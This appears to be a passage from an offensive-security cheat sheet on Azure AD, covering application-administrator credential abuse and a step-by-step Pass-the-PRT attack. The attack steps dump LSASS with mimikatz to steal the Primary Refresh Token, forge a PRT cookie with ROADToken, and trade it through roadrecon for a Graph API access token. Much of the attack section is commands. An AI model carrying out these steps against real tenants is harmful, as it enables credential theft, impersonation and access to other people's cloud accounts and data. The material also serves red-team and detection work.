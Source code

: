 ```
- Application Administrators can manage application credentials that allows them to impersonate the application.

List all Azure applications:  
```
az ad app list --all
```

- Tool appJack.py

- https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/

#### Pass-the-PRT
- https://docs.microsoft.com/en-us/azure/active-directory/devices/concept-primary-refresh-token  s
**Primary Refresh Token** (PRT) is a special high privileged refresh token where you can request **access tokens** for any registered application in Azure and Microsoft 365 to authenticate against it. Compared to Active Directory in on-premises networks, it is the equivalence to the Ticket Granting Ticket (TGT).

- JSON Web Token (JWT)
- Storage
	- Cached by Cloud AP in LSASS
	- Session key protected by TPM (if present)
- Validity
	- Valid for 14 days
	- Renewed every 4 hours
- Invalidation
	- Invalid user (deleted/disabled)
	- Invalid device
	- Password change

![prtcookie](https://docs.microsoft.com/en-us/azure/active-directory/devices/media/concept-primary-refresh-token/prt-initial-sign-in.png)

##### Attack
1. Pass-The-PRT
	- Steal the PRT from LSASS on victim's computer
	- Generate a PRT cookie on attacker's computer
	- Use the cookie to fetch an access token from Azure AD

2. Pass-The-Cookie
	- Steal a newly generated PRT cookie from victim's computer
	- Use the cookie to fetch an access token from Azure AD

1. Verify victim machine is AD Azure joined and verify if the session key is protected by TPM chip, dump LSASS process: 
```
dsregcmd.exe /status  
LSASS dump (sekurlsa::minidump lsass.dmp -> sekurlsa::cloudap)
```

2. Generate nonce using ROADTools
```
roadrecon auth --prt-init
```

3. Generate an Azure AD PRT cookie using ROADToken
```
.\ROADToken.exe 
```

4. Paste the PRT cookie to generate a graph API access token
```roadrecon auth --prt-cookie **COOKIE_FROM_ROAD_TOKEN**  
cat .roadtools_auth | python3 -m json.tool
```